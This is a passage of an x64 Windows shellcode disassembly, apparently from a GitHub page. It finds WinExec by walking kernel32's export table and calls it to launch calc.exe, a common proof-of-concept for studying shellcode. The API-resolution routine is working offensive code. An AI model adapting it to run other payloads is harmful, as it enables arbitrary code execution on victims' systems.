 ```nasm
  3f:   4d 01 c3                add    %r8,%r11
  42:   4c 89 d1                mov    %r10,%rcx
  45:   48 b8 57 69 6e 45 78    movabs $0x636578456e6957,%rax
  4c:   65 63 00
  4f:   50                      push   %rax
  50:   48 89 e0                mov    %rsp,%rax
  53:   48 83 c4 08             add    $0x8,%rsp
  57:   eb 00                   jmp    59 <kernel32findfunction>

0000000000000059 <kernel32findfunction>:
  59:   67 e3 1a                jecxz  76 <FunctionNameNotFound>
  5c:   31 db                   xor    %ebx,%ebx
  5e:   41 8b 5c 8b 04          mov    0x4(%r11,%rcx,4),%ebx
  63:   4c 01 c3                add    %r8,%rbx
  66:   48 ff c9                dec    %rcx
  69:   4c 8b 08                mov    (%rax),%r9
  6c:   4c 39 0b                cmp    %r9,(%rbx)
  6f:   74 02                   je     73 <FunctionNameFound>
  71:   75 e6                   jne    59 <kernel32findfunction>

0000000000000073 <FunctionNameFound>:
  73:   51                      push   %rcx
  74:   eb 01                   jmp    77 <OrdinalLookupSetup>

0000000000000076 <FunctionNameNotFound>:
  76:   cc                      int3

0000000000000077 <OrdinalLookupSetup>:
  77:   41 5f                   pop    %r15
  79:   78 00                   js     7b <OrdinalLookup>

000000000000007b <OrdinalLookup>:
  7b:   4c 89 f9                mov    %r15,%rcx
  7e:   4d 31 db                xor    %r11,%r11
  81:   44 8b 5a 24             mov    0x24(%rdx),%r11d
  85:   4d 01 c3                add    %r8,%r11
  88:   48 ff c1                inc    %rcx
  8b:   66 45 8b 2c 4b          mov    (%r11,%rcx,2),%r13w
  90:   4d 31 db                xor    %r11,%r11
  93:   44 8b 5a 1c             mov    0x1c(%rdx),%r11d
  97:   4d 01 c3                add    %r8,%r11
  9a:   43 8b 44 ab 04          mov    0x4(%r11,%r13,4),%eax
  9f:   4c 01 c0                add    %r8,%rax
  a2:   50                      push   %rax
  a3:   78 00                   js     a5 <executeit>

00000000000000a5 <executeit>:
  a5:   41 5f                   pop    %r15
  a7:   b8 00 00 00 00          mov    $0x0,%eax
  ac:   50                      push   %rax
  ad:   48 b8 63 61 6c 63 2e    movabs $0x6578652e636c6163,%rax
  b4:   65 78 65
  b7:   50                      push   %rax
  b8:   48 89 e1                mov    %rsp,%rcx
  bb:   ba 01 00 00 00          mov    $0x1,%edx
  c0:   48 83 ec 30             sub    $0x30,%rsp
  c4:   41 ff d7                call   *%r15
```
